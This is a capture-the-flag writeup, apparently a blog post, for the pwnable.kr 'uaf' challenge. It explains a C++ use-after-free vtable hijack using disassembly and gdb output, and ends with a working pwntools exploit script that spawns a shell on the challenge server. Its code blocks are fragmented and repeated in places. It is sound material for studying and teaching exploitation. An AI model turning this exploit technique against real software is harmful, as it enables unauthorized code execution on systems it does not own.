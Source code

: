 ```yaml
---
layout: post
title: "Pwnable.kr writeup — uaf"
date: 2017-10-19 23:20:14 +0000
categories: blog
---
```


### Pwnable.kr writeup — uaf

This is a well-designed and simple challenge to practice pwnable exploits. Its name already tells you what to exploit: use-after-free. But how?

Read the source code first, to understand what it does:

As the name tells, the exploit is use after free, so here is our plan:

In order to make this work, we need to connect them together of course. The key is step 2, in order to connect it with step 1 and step 3, we need to make sure:

```
->introduce()
```

```
->give_shell()
```

How can we ensure we could allocate the last memory chunk we just freed? If you’ve read my post about heap overflow exploits, you know that fast-bin chunks are in LIFO order, so all we need to do is making sure they fit in fast bins and have exactly the same size.

Looking into the assembly code near operator new:

```
operator new
```

```
400f55: 4c 8d 65 c0           lea    -0x40(%rbp),%r12  400f59: bf 18 00 00 00        mov    $0x18,%edi  400f5e: e8 2d fe ff ff        callq  400d90 <operator new(unsigned long)@plt>
```

It is quite easy to figure out the chunk size is 0x18, 24 bytes. So it clearly fits in a fast bin and this must be the first cmdline argument we pass.

Hijacking the virtual function pointer is much harder, we have to take a deep look at the assembly code to understand how virtual functions work in C++. Let’s locate the assembly code calling that virtual function:

```
400fcd: 48 8b 45 c8           mov    -0x38(%rbp),%rax400fd1: 48 8b 00              mov    (%rax),%rax400fd4: 48 83 c0 08           add    $0x8,%rax400fd8: 48 8b 10              mov    (%rax),%rdx400fdb: 48 8b 45 c8           mov    -0x38(%rbp),%rax400fdf: 48 89 c7              mov    %rax,%rdi400fe2: ff d2                 callq  *%rdx400fe4: 48 8b 45 d0           mov    -0x30(%rbp),%rax400fe8: 48 8b 00              mov    (%rax),%rax400feb: 48 83 c0 08           add    $0x8,%rax400fef: 48 8b 10              mov    (%rax),%rdx400ff2: 48 8b 45 d0           mov    -0x30(%rbp),%rax400ff6: 48 89 c7              mov    %rax,%rdi400ff9: ff d2                 callq  *%rdx
```

We know C++ virtual functions are stored in a virtual function table and from the above code we can see:

```
->introduce()
```

```
->introduce()
```

```
this
```

If we translate the above in to pseudo C, it is something like: this->vptr->introduce() , where vptr is at offset 0 and introduce() is at offset 8.

```
this->vptr->introduce()
```

```
vptr
```

```
introduce()
```

Let’s attach gdb and see where and what is vptr:

```
vptr
```

```
(gdb) b *0x0000000000400fd4Breakpoint 1 at 0x400fd4(gdb) rStarting program: /home/uaf/uaf1. use2. after3. free1
```

```
Breakpoint 1, 0x0000000000400fd4 in main ()(gdb) p $rax$1 = 4199792(gdb) x/2gx $rax0x401570 <_ZTV3Man+16>: 0x000000000040117a 0x00000000004012d2(gdb) x/5i 0x000000000040117a   0x40117a <_ZN5Human10give_shellEv>: push   %rbp   0x40117b <_ZN5Human10give_shellEv+1>: mov    %rsp,%rbp   0x40117e <_ZN5Human10give_shellEv+4>: sub    $0x10,%rsp   0x401182 <_ZN5Human10give_shellEv+8>: mov    %rdi,-0x8(%rbp)   0x401186 <_ZN5Human10give_shellEv+12>: mov    $0x4014a8,%edi(gdb) x/5i 0x00000000004012d2   0x4012d2 <_ZN3Man9introduceEv>: push   %rbp   0x4012d3 <_ZN3Man9introduceEv+1>: mov    %rsp,%rbp   0x4012d6 <_ZN3Man9introduceEv+4>: sub    $0x10,%rsp   0x4012da <_ZN3Man9introduceEv+8>: mov    %rdi,-0x8(%rbp)   0x4012de <_ZN3Man9introduceEv+12>: mov    -0x8(%rbp),%rax
```

Ah, it is clear that vptr is located at 0x401570 and it contains two function pointers: ->give_shell() and ->introduce()! And vptr is contained in each of these classes too, as the first member. This means we need to fill it into the memory chunk! But how does hijack happen? If we fill 0x401570, we still get ->introduce() called. We know ->introduce() is at offset 8, this is in binary is not what we can control, but… we can fill 0x401570–8 = 0x401568 !!

```
vptr
```

```
0x401570
```

```
->give_shell()
```

```
->introduce()
```

```
0x401570
```

```
->introduce()
```

```
->introduce()
```

The last thing to note is since fast bin memory chunks are reused in LIFO order, our first allocation should get w, the second one get m . This means we have to make two allocations and fill both of them, otherwise m->introduce() will segfault…

```
w
```

```
m
```

```
m->introduce()
```

So the final code is:

```
from pwn import *
```

```
s = ssh(host='pwnable.kr', port=2222,        user='uaf',        password='guest')context.log_level = 'debug'a = s.process(["./uaf", "24", "/dev/stdin"])a.recv(1024)a.sendline("3")a.recv(1024)a.sendline("2")a.send("\x68\x15\x40\x00\x00\x00\x00\x00")a.recvuntil('free\n')a.sendline("2")a.send("\x68\x15\x40\x00\x00\x00\x00\x00")a.recvuntil('free\n')a.sendline("1")a.interactive()
```